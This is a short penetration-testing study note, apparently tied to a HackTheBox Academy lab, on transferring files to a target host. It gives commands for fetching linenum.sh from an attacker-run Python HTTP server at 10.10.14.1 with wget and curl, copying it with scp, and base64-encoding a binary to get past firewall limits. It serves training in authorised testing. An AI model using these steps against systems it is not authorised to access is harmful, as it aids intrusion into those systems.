 ```yaml
---
id: Transferring Files
aliases: []
tags:
  - Pentest/General/Transferring-Files
---
```


# Transferring files

- [HTB Academy - Transferring Files](https://academy.hackthebox.com/module/77/section/849)

## Python HTTP Server

Run a [Python HTTP Server](https://developer.mozilla.org/en-US/docs/Learn_web_development/Howto/Tools_and_setup/set_up_a_local_testing_server)
on the attacker machine and use **wget** or **curl** to download the file(s) to
the remote host.

```sh
python3 -m http.server 8000
```

Acquire the files from the remote host

```sh
wget http://10.10.14.1:8000/linenum.sh
```

```sh
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

## SCP

It is possible to transfer files using `scp` once

- SSH connection is established
- User credentials are known

**Attacker**: Copy the file to the remote machine

```sh
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

## Base64

It may be not possible to transfer files if (for example) the remote host has
firewall protection.

**Attacker**: Encode the binary file to base64

```sh
base64 file.ext -w 0
```

**Target**: Copy the base64 string, decode it, and pipe it into a file

```sh
echo f0VMRgIBAQAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaiXSInmDwU | base64 -d > file.ext
```

## Validate File Transfers

Validate the format of the file

```sh
file file.ext
```

**Attacker**: Run a `md5sum` on the file

```sh
md5sum file.ext

321de1d7e7c3735838890a72c9ae7d1d file.ext
```

**Target**: Run `md5sum` to validate the hash

```sh
md5sum file.ext

321de1d7e7c3735838890a72c9ae7d1d file.ext
```

